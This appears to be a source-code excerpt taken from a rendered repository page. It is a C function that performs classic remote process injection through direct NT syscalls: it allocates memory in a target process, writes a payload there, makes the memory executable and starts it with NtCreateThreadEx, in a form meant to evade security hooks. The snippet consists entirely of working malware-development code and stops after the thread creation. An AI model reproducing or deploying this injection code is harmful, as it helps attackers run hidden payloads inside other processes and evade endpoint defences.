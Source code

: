 

```
BOOL ClassicInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {


	Syscall   St                     = { 0 };
	NTSTATUS  STATUS                 = 0x00;
	PVOID     pAddress               = NULL;
	ULONG     uOldProtection         = NULL;

	SIZE_T    sSize                  = sPayloadSize,
              sNumberOfBytesWritten	= NULL;
	HANDLE    hThread                = NULL;

	// Initializing the 'St' structure to fetch the syscall's addresses
	if (!InitializeSyscallStruct(&St)){
		printf("[!] Could Not Initialize The Syscall Struct \n");
		return FALSE;
	}

//--------------------------------------------------------------------------

	// Allocating memory
	if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();

//--------------------------------------------------------------------------

	// Writing the payload
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");

//--------------------------------------------------------------------------

	// Changing the memory's permissions to RWX
	if ((STATUS = St.pNtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------
	// Executing the payload via thread
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
```